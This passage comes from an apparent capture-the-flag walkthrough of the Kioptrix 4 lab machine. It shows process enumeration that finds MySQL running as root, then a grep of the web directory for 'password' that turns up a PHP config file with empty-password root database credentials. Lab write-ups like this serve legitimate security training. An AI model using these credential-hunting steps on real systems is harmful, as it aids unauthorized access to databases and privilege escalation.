 ### Determining what services are running on the system.

Below service running with root priviliges are displayed.

```bash
robert@Kioptrix4:/$ ps aux | grep root | grep -v ]
root         1  0.0  0.1   2844  1692 ?        Ss   19:40   0:02 /sbin/init
root      2875  0.0  0.0   2236   728 ?        S<s  19:41   0:00 /sbin/udevd --daemon
root      4643  0.0  0.0   1716   488 tty4     Ss+  19:41   0:00 /sbin/getty 38400 tty4
root      4645  0.0  0.0   1716   492 tty5     Ss+  19:41   0:00 /sbin/getty 38400 tty5
root      4652  0.0  0.0   1716   492 tty2     Ss+  19:41   0:00 /sbin/getty 38400 tty2
root      4655  0.0  0.0   1716   492 tty3     Ss+  19:41   0:00 /sbin/getty 38400 tty3
root      4659  0.0  0.0   1716   492 tty6     Ss+  19:41   0:00 /sbin/getty 38400 tty6
root      4711  0.0  0.0   1872   544 ?        S    19:41   0:00 /bin/dd bs 1 if /proc/kmsg of /var/run/klogd/kmsg
root      4732  0.0  0.0   5316   992 ?        Ss   19:41   0:00 /usr/sbin/sshd
root      4788  0.0  0.0   1772   524 ?        S    19:41   0:00 /bin/sh /usr/bin/mysqld_safe
root      4830  0.0  1.7 127224 17608 ?        Sl   19:41   0:04 /usr/sbin/mysqld --basedir=/usr 
--datadir=/var/lib/mysql --user=root --pid-file=/var/ru
root      4832  0.0  0.0   1700   552 ?        S    19:41   0:00 logger -p daemon.err -t mysqld_safe -i -t mysqld
root      4905  0.0  0.1   6528  1332 ?        Ss   19:41   0:00 /usr/sbin/nmbd -D
root      4907  0.0  0.2  10108  2544 ?        Ss   19:41   0:00 /usr/sbin/smbd -D
root      4921  0.0  0.0  10108  1028 ?        S    19:41   0:00 /usr/sbin/smbd -D
root      4922  0.0  0.1   8084  1340 ?        Ss   19:41   0:00 /usr/sbin/winbindd
root      4926  0.0  0.1   8208  1704 ?        S    19:41   0:00 /usr/sbin/winbindd
root      4954  0.0  0.0   2104   888 ?        Ss   19:41   0:00 /usr/sbin/cron
root      4976  0.0  0.5  20464  6200 ?        Ss   19:41   0:00 /usr/sbin/apache2 -k start
root      5031  0.0  0.0   1716   492 tty1     Ss+  19:41   0:00 /sbin/getty 38400 tty1
root      5050  0.0  0.0   8084   868 ?        S    19:47   0:00 /usr/sbin/winbindd
root      5051  0.0  0.1   8092  1264 ?        S    19:47   0:00 /usr/sbin/winbindd
robert    8762  0.0  0.0   3004   752 pts/2    R+   22:21   0:00 grep root
```

From the above output it was determined that MySQL server is running with administrative privileges.

### Searching for MySQL password:

Next we can attempt to gain access to MySQL database by searching for a script containing mysql password. Often these files are located in web directory on the server.

```bash
robert@Kioptrix4:/$ cd /var/www/

robert@Kioptrix4:/var/www$ grep -rl "password" *
checklogin.php
database.sql
index.php
john/john.php
robert/robert.php

robert@Kioptrix4:/var/www$ cat checklogin.php 
<?php
ob_start();
$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password
$db_name="members"; // Database name
$tbl_name="members"; // Table name
```
